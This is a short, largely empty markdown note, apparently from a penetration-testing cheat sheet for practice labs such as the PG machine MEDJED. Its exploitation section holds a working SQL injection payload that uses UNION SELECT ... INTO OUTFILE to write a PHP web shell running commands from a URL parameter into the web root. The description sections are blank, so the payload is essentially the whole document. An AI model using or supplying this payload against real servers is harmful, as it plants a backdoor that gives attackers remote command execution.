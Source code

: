 
## DESCRIPTION



#### Mas información


## EXPLOITATION

### OPTION 1: SUBIR UNA WEBSHELL USING INTO OUTFILE

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```



## MACHINES

* Hack The Box: 
* PG: MEDJED

**!!NOTA IMPORTANTE!!** 